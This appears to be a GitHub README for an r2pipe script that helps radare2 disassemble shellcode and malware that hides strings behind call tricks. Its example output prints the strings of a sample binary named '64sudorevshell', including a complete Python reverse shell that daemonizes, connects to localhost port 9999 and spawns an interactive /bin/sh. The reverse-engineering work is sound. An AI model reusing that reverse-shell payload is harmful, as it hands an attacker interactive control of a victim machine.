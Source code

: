Please, consider make a donation: https://github.com/sponsors/therealdreg

# call_trick_r2pipe

Are you using radare for reversing or debugging a shellcode/malware with a lot of call tricks for strings like these:

```
call @f
db "string1",0
@f:
more code
call @g:
db "string2",0
@g:
more code
```

Try this r2pipe (https://www.radare.org/n/r2pipe.html) script to fix disasm:
 ```
#!/usr/bin/env python3
# run inside r2 session: #!pipe python3 poc.py

import r2pipe

r2 = r2pipe.open()
print(r2.cmd("izz"))
for e in r2.cmdj("izzj"):
       if e['type'] == "ascii" and e['section'] == ".text":
               # csa = f"Csa {e['size']} @ { e['vaddr']}"
               csa = "Csa " + str(e['size']) + " @" + str(e['vaddr'])
               print(csa)
               r2.cmd(csa)
```

This script search all C-STRING-STYLE in .text section and mark each one like string 

Just use this script with "#!pipe python3 poc.py" command inside your r2 session:
```
dreg@fr33project:~# r2 64sudorevshell
[0x00401000]> #!pipe python3 poc.py
[Strings]
nth paddr      vaddr      len size section   type  string
---------------------------------------------------------
0   0x0000105a 0x0040105a 524 525  .text     ascii exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect((str(0x7f000001),9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")
1   0x00001274 0x00401274 11  12   .text     ascii /bin/python
2   0x000012b7 0x004012b7 9   10   .text     ascii /bin/sudo
3   0x00001479 0x00000001 18  19   .strtab   ascii 64sudorevshell.asm
4   0x0000148c 0x00000014 6   7    .strtab   ascii parent
5   0x00001493 0x0000001b 5   6    .strtab   ascii child
6   0x00001499 0x00000021 4   5    .strtab   ascii arg3
7   0x000014a2 0x0000002a 4   5    .strtab   ascii arg2
8   0x000014ab 0x00000033 4   5    .strtab   ascii arg1
9   0x000014b0 0x00000038 4   5    .strtab   ascii drgs
10  0x000014b9 0x00000041 6   7    .strtab   ascii end_sc
11  0x000014c0 0x00000048 11  12   .strtab   ascii __bss_start
12  0x000014cc 0x00000054 6   7    .strtab   ascii _edata
13  0x000014d3 0x0000005b 4   5    .strtab   ascii _end
14  0x000014d9 0x00000001 7   8    .shstrtab ascii .symtab
15  0x000014e1 0x00000009 7   8    .shstrtab ascii .strtab
16  0x000014e9 0x00000011 9   10   .shstrtab ascii .shstrtab
17  0x000014f3 0x0000001b 18  19   .shstrtab ascii .note.gnu.property
18  0x00001506 0x0000002e 5   6    .shstrtab ascii .text


Csa 525 @4198490
Csa 12 @4199028
Csa 10 @4199095
[0x00401000]>
```

# Before

![alt text](before.png)

# After

![alt text](after.png)

Greetz to Maijin for hints in #radare channel
           


